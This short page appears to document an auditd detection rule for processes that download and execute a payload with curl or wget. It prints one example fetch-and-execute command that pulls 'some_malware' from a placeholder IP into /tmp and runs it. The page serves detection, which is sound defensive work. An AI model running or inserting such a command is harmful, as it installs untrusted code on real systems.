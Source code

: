 ## Auditd : execute payload from internet

Attempt to detect a process that is successively invoking `curl` or `wget` and executing a non-standard payload or script.

This pattern is usually seen in post-exploitation behaviors to when downloading and executing backdoors :

```bash
curl -o /tmp/smth http://X.X.X.X/some_malware ; chmod +x /tmp/smth ; /tmp/smth
```
